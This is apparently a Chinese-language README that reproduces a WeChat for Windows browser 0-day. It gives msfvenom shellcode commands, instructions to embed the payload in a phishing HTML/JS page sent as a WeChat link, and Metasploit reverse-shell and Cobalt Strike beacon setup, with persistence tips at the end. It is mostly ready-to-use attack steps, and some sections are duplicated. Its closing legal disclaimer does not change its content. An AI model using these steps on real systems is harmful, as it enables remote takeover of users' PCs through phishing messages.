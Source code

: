 



# WeChat 0day

## 漏洞介绍

攻击者可以通过在网页js插入攻击代码，用户一旦点击链接，Windows版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户PC。攻击者可以利用此漏洞执行任意代码，控制用户PC，存在极大的危害。

## 影响范围

Windows版微信: 小于等于3.2.1.141版本

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.130

Windows 10 x64

微信 3.2.1.134

其他版本不确定是否可以，请自测。

[微信历史版本下载](http://www.mydown.com/soft/103/473305603.shtml)

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*(这里说明一下，如下图，微信进程wechatweb.exe默认关闭沙盒，Chrome版本是53.0.2875.166，运行在x86架构上，故生成payload时须指定为x86架构)*

![image-20210419220004697]($imgs/image-20210419220004697.png)

### 1.2 制作html钓鱼文件

将生成的代码放入WeChat.js中shellcode[]中。

![image-20210419221432458]($imgs/image-20210419221432458.png)

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功执行计算器命令。

http://192.168.43.232/WeChat.html

![image-20210419220935481]($imgs/image-20210419220935481.png)



## 2. 利用Metasploit反弹shell

### 2.1 shellcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入WeChat.js中shellcode[]里。

![image-20210419224510744]($imgs/image-20210419224510744.png)

### 2.2 msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

### 2.3 反弹shell

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。

http://192.168.43.232/WeChat.html

<img src="$imgs/image-20210419224819886.png" alt="image-20210419224819886" style="zoom:50%;" />

![image-20210419224724224]($imgs/image-20210419224724224.png)

## 3. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

### <img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom: 50%;" />

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

![image-20210419225513410]($imgs/image-20210419225513410.png)

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里不勾选x64，因为微信进程试运行在x86架构上的。**

<img src="$imgs/image-20210419230142555.png" alt="image-20210419230142555" style="zoom:50%;" />

![image-20210419230351333]($imgs/image-20210419230351333.png)

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419230559917]($imgs/image-20210419230559917.png)

**2.2.3 将引号里的代码复制到WeChat.js文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419230813043]($imgs/image-20210419230813043.png)



**2.2.4 将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。**

**http://192.168.43.232/WeChat.html**

![image-20210419231021319]($imgs/image-20210419231021319.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。

![image-20210419231230251]($imgs/image-20210419231230251.png)

## 写在最后

都说这个漏洞比较鸡肋，必须保证微信内置浏览器一直打开状态才不会掉线，如果把它关闭就会直接掉线。不过看到大佬写得一篇博客：“关于微信内置浏览器 达到持久控制”，可以解决上述问题：

1*. 加载自定义 malleable C2 配置文件 从而达到主机一上线跳默认为 1 秒，就可自动在目标打开浏览器短暂的时间里尽快转移进程*

*2. 加载一个 Cobalt Strike automigrate 自动迁移进程的插件从而达到目标上线后会话自动迁移到其他进程从而我们就可以脱离微信浏览器的束缚。*

由于文章可能比较敏感，该篇博客已被删除，幸好我留了一手，保存了网页，具体的操作可以参考我保存的网页，下载到本地用浏览器打开"关于微信内置浏览器 达到持久控制 _ Liqun.html"，即可看到，我试了一下，没成功，感兴趣的朋友可以尝试一下。



**至此WeChat-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**

